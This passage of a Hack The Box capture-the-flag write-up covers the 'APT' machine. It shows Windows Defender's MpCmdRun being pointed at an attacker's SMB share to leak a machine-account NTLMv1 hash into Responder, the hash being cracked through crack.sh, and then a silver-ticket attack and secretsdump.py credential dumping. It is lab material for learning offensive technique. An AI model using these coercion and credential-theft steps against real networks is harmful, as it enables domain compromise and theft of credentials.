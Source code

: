 And this is the victim/server:

```powershell
*Evil-WinRM* PS C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2010.7-0> .\MpCmdRun.exe -Scan -ScanType 3 -File \\10.10.14.5\test.txt
Scan starting...
CmdTool: Failed with hr = 0x80508023. Check C:\Users\HENRY~2.VIN\AppData\Local\Temp\MpCmdRun.log for more information
```

Doing this will result in this 

```sh
[SMB] NTLMv1 Client   : 10.10.10.213
[SMB] NTLMv1 Username : HTB\APT$
[SMB] NTLMv1 Hash     : APT$::HTB:95ACA8C7248774CB427E1AE5B8D5CE6830A49B5BB858D384:95ACA8C7248774CB427E1AE5B8D5CE6830A49B5BB858D384:1122334455667788
[*] Skipping previously captured hash for HTB\APT$
[*] Skipping previously captured hash for HTB\APT$
[*] Skipping previously captured hash for HTB\APT$
```

Now we have a hash with the challenge of `
1122334455667788` (which is specified in the configuration file of Responder)

Now, cracking NTLM hashes can be very time consuming, and this is where the really cool part of the box comes in, the reason we specified that specific challenge in the NTLMv1 hash was so that we can use [crack.sh](https://crack.sh/) to crack it for free! [Here is a further explanation of how](https://crack.sh/netntlm/)

We just have to format the NTLMv1 hash now, so `APT$::HTB:95ACA8C7248774CB427E1AE5B8D5CE6830A49B5BB858D384:95ACA8C7248774CB427E1AE5B8D5CE6830A49B5BB858D384:1122334455667788` needs to be:
```NTHASH:95ACA8C7248774CB427E1AE5B8D5CE6830A49B5BB858D384```

![crackshform](../assets/images/htb/APT/crackshform.png)

We enter the email to send the cracked hash. We shortly recieve an email that our job has been done.

![crackshresult](../assets/images/htb/APT/crackshresult.png)

> Crack.sh has successfully completed its attack against your NETNTLM handshake. The NT hash for the handshake is included below, and can be plugged back into the 'chapcrack' tool to decrypt a packet capture, or to authenticate to the server:  
  Token: $NETNTLM$1122334455667788$95ACA8C7248774CB427E1AE5B8D5CE6830A49B5BB858D384  
  Key: d167c3238864b12f5f82feae86a7f798  
  This run took 32 seconds. Thank you for using crack.sh, this concludes your job.
  
  
 #### Edit:

It seems like the route I went was actually unintended, although for some reason cannot get it to work anymore, which is **really** frustrating, I'm just unable to replicate it from my notes or anything. But besides that, I'll explain what I did at the time with the unintended route.

Now, remember when I mentioned how AD computer objects are treated similary to AD user accounts? Well, turns out we can abuse that hash we just cracked for a silver ticket attack, in fact, the description of this attack on [Hacktricks](https://book.hacktricks.xyz/windows/active-directory-methodology/silver-ticket) described a scenario which is really similar to ours

So we basically utilized a silver ticket attack, craft a TGS, gotten shell as administrator and boom, but since this doesn't seem to unfortunately work anymore, I'm just going to show you the intended route.

We use `secretsdump.py` to dump the hashes of all users, including the administrator one.

```